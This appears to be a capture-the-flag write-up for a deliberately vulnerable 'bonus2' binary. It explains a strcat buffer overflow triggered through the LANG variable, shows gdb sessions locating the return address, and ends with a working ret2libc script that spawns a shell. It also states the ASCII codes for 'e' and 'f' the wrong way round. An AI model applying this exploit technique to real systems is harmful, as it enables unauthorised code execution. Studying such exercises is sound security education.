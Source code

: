 # Speaking in LANG's (bonus2)

This [binary](source.c) will greet the user differently base on the `LANG`
environment variable. To do anything it requires two arguments. These arguments
are copied back to back in memory. If the first one is big enough, meaning it
actually contains 40 bytes of data without any null byte, the second one is
going to be concanated to it in memory. And then both arguments are going to be
used down the line even though only the first one was to be used. This allows us
to perform a buffer overflow on the `strcat` call in the _greetuser_ function.

This call will concatenate the user input with a custom greeting that will be
more or less long depending on the language:

```shell
# run gdb on the binary
gdb ./bonus2
(gdb) p strlen("Hello ")
$1 = 6
(gdb) p strlen("Goedemiddag! ")
$2 = 13
(gdb) p strlen("Hyvää päivää ")
$3 = 18
(gdb) quit
# test with the finnish version
LANG=fi ./bonus2 "aaaaaaa" "bbbbbbb"
Hyvää päivää aaaaaaa
```

Here, the longer the better since it will allow us to overwrite more data in
memory. Now let's make this buffer overflow and see where is _greetuser_'s
return address:

```shell
# set the LANG to the value we want
(gdb) set environment LANG=fi
# run with arguments filling the entire buffers
(gdb) run `python -c 'print "a" * 40'` `python -c 'print "aaaabbbbccccddddeeeeffffgggghhhh"'`
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh

Program received signal SIGSEGV, Segmentation fault.
0x66666565 in ?? ()
```

0x66 is the ascii code for 'e' and 0x65 for 'f'. This means that the return
address starts at the 18th byte of our second argument and that we have 10 more
bytes we can overwrite (not counting the null byte added at the end by
`strcat`). This is where the fun begins. What we're gonna do is a ret2libc like
in [level2](../level2):

| padding (18) | system (4) | exit (4)   | libc's "/bin/sh" address (4) |
|--------------|------------|------------|------------------------------|
| 0x616161...  | 0xb7e6b060 | 0xb7e5ebe0 | 0xb7f8cc58                   |

This is what the second argument looks like. For this to work we need also to
set `LANG` to "fi".

Here's the script that does all that:

```shell
export LANG=fi
ARG1=$(python -c 'print "a" * 40')
ARG2=$(python -c 'print "b" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]')
./bonus2 $ARG1 $ARG2
```
